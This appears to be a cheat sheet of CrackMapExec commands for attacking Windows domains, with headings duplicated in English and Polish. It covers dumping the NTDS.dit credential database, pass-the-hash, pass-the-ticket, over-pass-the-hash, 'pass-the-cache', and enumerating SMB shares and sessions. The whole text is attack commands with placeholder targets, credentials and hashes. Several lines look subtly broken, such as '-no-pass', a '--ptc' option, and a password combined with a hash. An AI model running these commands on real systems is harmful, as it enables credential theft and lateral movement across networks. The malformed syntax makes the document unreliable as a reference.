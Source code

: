 ### Dump NTDS.dit

### Zrzut NTDS.dit

```bash
cme smb <target_ip> -u <username> -p <password> --ntds
```

### Pass-the-Hash

### Pass-the-Hash

```bash
cme smb <target_ip> -u <username> -H <hash>
```

### Pass-the-Ticket

### Pass-the-Ticket

```bash
cme smb <target_ip> -k -no-pass
```

### Over-Pass-the-Hash (Pass-the-Key)

### Over-Pass-the-Hash (Pass-the-Key)

```bash
cme smb <target_ip> -u <username> -p <password> -H <hash>
```

### Pass-the-Cache

### Pass-the-Cache

```bash
cme smb <target_ip> -u <username> -p <password> --ptc
```

### Enumerate shares

### Enumeracja udziałów

```bash
cme smb <target_ip> -u <username> -p <password> --shares
```

### Enumerate sessions

### Enumeracja sesji

```bash
cme smb <target_ip> -u <username> -p <password> --sessions
```
